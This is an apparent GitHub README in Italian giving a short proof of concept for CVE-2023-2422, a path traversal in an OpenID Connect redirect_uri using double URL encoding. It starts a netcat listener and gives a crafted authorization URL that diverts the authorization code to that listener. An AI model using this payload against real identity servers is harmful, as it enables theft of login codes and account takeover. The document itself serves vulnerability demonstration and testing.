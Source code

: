 # CVE-2023-2422 Path Traversal Vulnerability via Double URL Encoding

Aviare un listener appare il code

```shell
$ nc -lvnp 1234
```

Nel browser visitare il seguente url e loggarsi

```shell
https://localhost:4200/realms/winted/protocol/openid-connect/auth?
client_id=winted-web&
redirect_uri=https%3A%2F%2Flocalhost%3A4200%2Flogin
%2f%252E%252E%2fvuln?
url=http%3A%2F%2Flocalhost%3A1234&
response_mode=fragment&
response_type=code&scope=openid
```

# Demo

Video demo [qui](https://videolink)
